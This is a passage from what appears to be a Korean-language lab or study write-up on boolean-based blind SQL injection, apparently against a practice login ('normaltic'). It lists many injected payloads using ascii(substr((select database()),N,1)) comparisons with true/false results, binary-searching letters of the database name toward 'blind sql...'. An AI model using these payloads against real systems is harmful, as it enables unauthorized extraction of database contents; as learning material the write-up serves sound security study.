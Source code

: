 -> O  
-> 찾은 글자: bxx xxx xxx  
-> 예측한 글자: bxx xxx xxx  

---

1. **normaltic' and (ascii(substr((select database()), 3, 1)) > 64) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 3, 1)) > 96) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 3, 1)) > 112) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 3, 1)) > 104) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 3, 1)) > 108) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 3, 1)) > 106) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 3, 1)) > 105) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 3, 1)) = 105) #**
-> O  
-> 찾은 글자: bxi xxx xxx  
-> 예측한 글자: bxi xxx xxx  

---

1. **normaltic' and (ascii(substr((select database()), 5, 1)) > 64) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 5, 1)) > 96) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 5, 1)) > 112) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 5, 1)) > 104) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 5, 1)) > 100) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 5, 1)) > 98) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 5, 1)) = 99) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 5, 1)) = 100) #**
-> O  
-> 찾은 글자: bxi xdx xxx  
-> 예측한 글자: blind xxxx  

---

1. **normaltic' and (ascii(substr((select database()), 7, 1)) > 64) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 7, 1)) > 96) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 7, 1)) > 112) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 7, 1)) > 120) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 7, 1)) > 116) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 7, 1)) > 114) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 7, 1)) > 113) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 7, 1)) = 113) #**
-> O  
-> 찾은 글자: bxi xdx qxx  
-> 예측한 글자: blind sqlx  